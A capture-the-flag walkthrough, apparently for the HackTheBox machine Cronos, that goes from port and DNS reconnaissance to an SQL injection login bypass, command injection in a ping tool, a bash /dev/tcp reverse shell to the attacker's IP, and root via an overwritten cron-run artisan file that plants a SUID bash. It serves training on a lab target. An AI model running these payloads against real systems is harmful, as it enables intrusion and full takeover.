```zsh
ping -c 3 10.10.10.13 

PING 10.10.10.13 (10.10.10.13) 56(84) bytes of data.
64 bytes from 10.10.10.13: icmp_seq=1 ttl=63 time=132 ms
64 bytes from 10.10.10.13: icmp_seq=2 ttl=63 time=133 ms
64 bytes from 10.10.10.13: icmp_seq=3 ttl=63 time=133 ms
```

## Recon

```zsh
sudo nmap -p- --open --min-rate 5000 -v -n -Pn 10.10.10.13 -oG allPorts
nmap -sCV -p 22,53,80 10.10.10.13 -oN targeted
```

```zsh
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-27 17:47 EDT
Nmap scan report for 10.10.10.13
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```zsh
 whatweb http://10.10.10.13 
 
http://10.10.10.13 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.13], Title[Apache2 Ubuntu Default Page: It works]
```


```zsh
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u "http://10.10.10.13/" -H "Host: FUZZ.10.10.10.13/" -fs 11439

 :: Method           : GET
 :: URL              : http://10.10.10.13/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.10.10.10.13/
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 11439
________________________________________________

:: Progress: [100000/100000] :: Job [1/1] :: 318 req/sec :: Duration: [0:05:38] :: Errors: 0 ::
```

```zsh
nslookup

> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
> 
```

```zsh
echo "10.10.10.13 ns1.cronos.htb cronos.htb" | sudo tee -a /etc/hosts
```

Ahora podemos ver que nos redirige a cronos



- Wappalyzer



```zsh
wfuzz -c --hc 404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://cronos.htb/FUZZ
```

## SubDomain

https://hacktricks.boitatech.com.br/pentesting/pentesting-dns#more-info

```zsh
dig mx @10.10.10.13 cronos.htb


;; Warning, extra type option

; <<>> DiG 9.20.9-1-Debian <<>> ns @10.10.10.13 cronos.htb mx
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 31902
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;cronos.htb.			IN	MX

;; AUTHORITY SECTION:
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800

;; Query time: 135 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (UDP)
;; WHEN: Sun Jul 27 19:35:00 EDT 2025
;; MSG SIZE  rcvd: 81
```

- Wfuzz

```zsh
wfuzz -c --hh 11439 --hc 404 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.cronos.htb" http://admin.cronos.htb/ 
```



- DnsEnum

```zsh
dnsenum --dnsserver 10.10.10.13 --threads 50 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt cronos.htb
```

```zsh
Brute forcing with /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:
______________________________________________________________________________________

www.cronos.htb.                          604800   IN    A        10.10.10.13
ns1.cronos.htb.                          604800   IN    A        10.10.10.13
admin.cronos.htb.                        604800   IN    A        10.10.10.13
```

## SQLi 



```zsh
admin' or 1 = 1-- -
```




## NetTool



```
sudo tcpdump -i tun0
```



## Command Injection

```
10.10.14.18; whoami
```



- Reverse Shell

```zsh
bash -c 'bash -i >& /dev/tcp/10.10.14.18/9001 0>&1'
```

Credentials



```zsh
cat /etc/crontab

* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```



```zsh
echo '<?php system("cp /bin/bash /tmp/racc0x; chmod 4775 /tmp/racc0x") ?>' > /var/www/laravel/artisan
```



